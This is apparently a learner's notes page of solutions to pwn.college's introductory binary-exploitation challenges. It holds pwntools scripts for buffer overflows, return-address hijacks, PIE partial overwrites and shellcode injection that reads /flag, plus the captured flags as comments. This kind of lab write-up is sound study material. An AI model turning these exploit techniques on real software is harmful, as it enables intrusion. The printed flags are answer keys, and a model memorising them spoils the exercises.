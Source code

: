 ```yaml
---
created: 2025-01-01T04:01
updated: 2025-01-01T18:35
---
```


[pwn.college/intro-to-cybersecurity/binary-exploitation/](https://pwn.college/intro-to-cybersecurity/binary-exploitation/)

Fun intro to pwn!
## Variable Control

```python
p.send(b"A"*(8*7+4)+p32(537906058))
# pwn.college{IbWcCEgwb_3NmxBQOakpaZ8L8mV.dhTNzMDL4MTNzYzW}
```

## Control Hijack

```python
p.send(b"A"*8*7+p64(0x4014c8)) # easy
# pwn.college{sjqEokLrLnlDZW3u8G_W0W7kAGz.01M5IDL4MTNzYzW}
p.send(b"A"*8*(14+1+1+1)+p64(0x401C6F)) # 14 i64 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gTV54k_-ulMQYgDzC3Vh_mCftbz.0FN5IDL4MTNzYzW}
```

## Tricky Control Hijack

```python
p.send(b"A"*(121+31)+p64(0x00401d74)) # easy
# pwn.college{oR39AEc9qZaLen24njN6hKpfsaA.0VO5IDL4MTNzYzW}
p.send(b"A"*8*(8+1+1+1+1+1)+p64(0x004015FB)) # 8 i64 ; 1 i16 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gkl-HAozRVjCOL58ddWZgrjluSZ.0FMwMDL4MTNzYzW}
```

## PIEs

```python
p.send(b"A"*8*(9+1+1+1+1)+p16(0x037E))
# pwn.college{QD_tEkBqsGxZhFGVZqF4wVArs1c.0VMwMDL4MTNzYzW}
p.send(b"A"*8*(11+1+1+1+1)+p16(0x6D1)) # 11 i64 ; 1 char ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{kgYa6adJ7d99q5RJ3UtvPka9GeD.0lMwMDL4MTNzYzW}
```

## String Lengths

```python
p.send(b"\x00"*8*(9+1+1+1+1+1+1)+p16(0x1DD7))
# pwn.college{wOakrYJ9rSpwCNDTCo_v8r8lrpY.01MwMDL4MTNzYzW}
p.send(b"\x00"*8*(4+1+1+1+1+1+1+1)+p16(0x1E83)) # 4 i64 ; 1 int ; 1 i16 ; 1 char ; 1 sizet ; 1 int ; 1 void* ; 1 sizet ; 1 base pointer
# pwn.college{cH39TBWBTDBxBC820wjWZC8HT6I.0FNwMDL4MTNzYzW}
```

## Shellcode Basic

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-basic-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
# sc = shellcraft.execve(path="/bin/cat", argv=["/flag"])
# sc = shellcraft.sh()
sc = asm(sc)
p.send(sc)
p.interactive()
```

For some reason neither `sh` nor `/bin/cat` worked.

## Shellcode NOP Sleds

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-nopsled-shellcode")
sc = pwnlib.shellcraft.amd64.nop()*0x800+shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Null free

The payload from basic shellcode works.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-null-free-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Hijack to Mapped

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-mmap-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.sendline()
p.send(b'A'*8*7+p64(0x15870000))
print(p.recvall().decode())
```

For the hard version, I've figured out how to make use of IDA's `rbp` stuff. `rbp` is just the base pointer location, which saves a lot more time.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
p.send(b'A'*(0x20+8)+p64(0x1a317000))
```

## Shellcode Hijack to Shellcode
I tried injecting the shell code before the return address, i.e. make the return address jump back, but it didn't work.

```python
payload = sc.ljust(8*7,asm(pwnlib.shellcraft.amd64.nop())) + p64(0x00007fffffffce00)
```

Instead the shell code is injected after the return address.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')+pwnlib.shellcraft.amd64.nop()*3
sc = asm(sc)
payload = b'A'*8*7 + p64(0x00007fffffffce38+8) + sc
p.send(payload)
print(p.recvall().decode())
```

For the hard version.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
payload = b'A'*(0x20+8) + p64(0x00007fffffffce38+8) + sc
```

## Conclusion

Wow, this was really helpful.

First time ever using shellcode, never knew it was this fun and easy.

Also learnt how to use IDA better.
